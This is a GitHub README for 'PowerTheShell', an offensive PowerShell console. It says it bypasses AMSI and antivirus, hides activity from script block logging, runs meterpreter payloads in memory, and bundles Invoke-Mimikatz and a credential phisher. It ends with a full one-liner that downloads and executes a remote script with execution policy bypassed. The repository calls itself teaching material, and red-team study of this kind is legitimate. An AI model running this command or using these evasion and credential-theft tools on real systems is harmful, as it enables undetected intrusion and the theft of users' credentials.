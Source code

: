 # PowerTheShell

This repository was created for teaching / demonstration purposes and is based on a post by <a href="https://twitter.com/_xpn_" rel="nofollow">@<em>xpn</em></a>, more details available <a href="https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/" rel="nofollow">here</a>.

The goal is:

1. Perform everything in memory without touching the hard disk
2. Run well-known scripts without being intercepted by the AV
3. Execute payload meterpreter without being intercepted by the AV
4. Minimize trace in EventViewer

The main script Console-Setup.ps1 performs one of the following AMSI evasion techniques:

1. Reflection by Matt Graeber (@mattifestation)
2. Patching by Tal Liberman (@Tal_Liberman)
3. Erro forcing by Adam Chester (@_xpn_)

The main script also performs the necessary commands for protecting our operational security:

1. Script block logging bypass by Ryan Cobb (@cobbr_io)

Once the setup phase is over, you can run the console and all its scripts without using any obfuscation technique. In fact, only the commands necessary for AMSI evasion technique are obfuscated.
The command necessary for Script block logging bypass are also obfuscated not for evade AMSI but for not leave trace on EventViewer ('ScriptBlockLogging' can be found in the variable 'Scriptblock.signatures' ). 


This repository contains well-known scripts such as Invoke-Mimikatz Invoke-Powershell Invoke-CrerdentialPhisher that
they have been patched or customized for solving issue and easy integration. The customization performed do not compromise the signature of the scripts.

# Instructions

To start the console run this line

powershell -Execution bypass "iex((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4rtik/PowerTheShell/master/Console-Setup.ps1'))"
